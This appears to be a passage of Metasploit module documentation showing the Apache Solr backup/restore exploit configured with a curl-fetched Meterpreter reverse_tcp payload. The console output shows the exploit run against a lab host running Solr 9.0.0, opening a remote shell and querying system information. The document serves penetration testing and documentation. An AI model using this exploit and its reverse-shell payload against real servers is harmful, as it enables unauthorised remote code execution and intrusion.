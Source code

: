 ```
   TARGETURI  solr             no        Path to Solr
   USERNAME   solr             no        Solr username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      dkNrXBirxJx      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp/            yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/apache_solr_backup_restore) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Running check method
[*] Found Apache Solr 9.0.0
[*] OS version is Linux amd64 6.5.0-26-generic
[+] The target appears to be vulnerable. Found Apache Solr version: 9.0.0
[+] Uploaded configuration successfully
[+] Backed up collection successfully
[+] Backed up collection successfully
[+] Uploaded configuration successfully
[*] Sending stage (3045380 bytes) to 172.16.199.132
[+] Successfully dropped the payload
[*] Meterpreter session 14 opened (172.16.199.1:4444 -> 172.16.199.132:41742) at 2024-04-01 16:25:16 -0700
[*] Cleaning up...

meterpreter > getuid
Server username: solr
meterpreter > sysinfo
Computer     : 172.21.0.3
OS           : Ubuntu 20.04 (Linux 6.5.0-26-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```